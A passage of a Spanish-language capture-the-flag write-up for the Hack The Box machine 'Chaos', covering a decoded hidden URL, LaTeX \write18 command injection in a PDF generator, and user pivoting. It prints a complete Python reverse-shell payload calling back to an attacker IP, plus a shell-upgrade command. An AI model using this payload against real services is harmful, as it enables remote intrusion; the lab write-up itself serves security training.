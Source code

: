Al descifrar el fichero obtenemos:

```txt
SGlpIFNhaGF5CgpQbGVhc2UgY2hlY2sgb3VyIG5ldyBzZXJ2aWNlIHdoaWNoIGNyZWF0ZSBwZGYKCnAucyAtIEFzIHlvdSB0b2xkIG1lIHRvIGVuY3J5cHQgaW1wb3J0YW50IG1zZywgaSBkaWQgOikKCmh0dHA6Ly9jaGFvcy5odGIvSjAwX3cxbGxfZjFOZF9uMDdIMW45X0gzcjMKClRoYW5rcywKQXl1c2gK
```

El texto está en base64, si lo decodificamos obtendremos:

```txt
Hii Sahay

Please check our new service which create pdf

p.s - As you told me to encrypt important msg, i did :)

http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3

Thanks,
Ayush
```

Para acceder a este recurso debemos configurar el nombre de la máquina chaos.htb en el fichero /etc/hosts ya que sólo es accesible mediante nombre de dominio. Una vez dentro encontraremos una aplicación que genera un pdf con el texto que introduce el usuario, para ello hace uso de **Latex**.

[![/images/write-up-htb-chaos/write-up-htb-chaos_012.png](/images/write-up-htb-chaos/write-up-htb-chaos_012.png)](/images/write-up-htb-chaos/write-up-htb-chaos_012.png)

**Latex** es un sistema de composición de textos muy empleado en documentos técnicos, artículos científicos, papers, etc. La versión que usa la aplicación contiene diferentes características entre las que se incluye la ejecución de código, lo cual no es una buena idea. Haciendo uso de la sintaxis `\immediate\write18{comando}` podemos ejecutar cualquier comando. Por lo que podremos obtener una **shell** mediante el siguiente comando.

```bash
\immediate\write18{python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.13.104",2222));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'}
```

[![/images/write-up-htb-chaos/write-up-htb-chaos_013.gif](/images/write-up-htb-chaos/write-up-htb-chaos_013.gif)](/images/write-up-htb-chaos/write-up-htb-chaos_013.gif)

La shell que obtenemos corre con el usuario **www-data** y no nos permite ver el fichero user.txt, por lo que vamos a cambiar al usuario obtenido en el wordpress usando la misma contraseña. Ya como usuario ayush, podremos ver el fichero user.txt que contiene la flag. Para poder cambiar de usuario debemos upgradear la shell, yo utilizo python mediante el siguiente comando:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Además, /bin no está añadido en el path por lo que para ejecutar los binarios localizados en esa ruta, debemos incluir la ruta completa.

[![/images/write-up-htb-chaos/write-up-htb-chaos_014.png](/images/write-up-htb-chaos/write-up-htb-chaos_014.png)](/images/write-up-htb-chaos/write-up-htb-chaos_014.png)
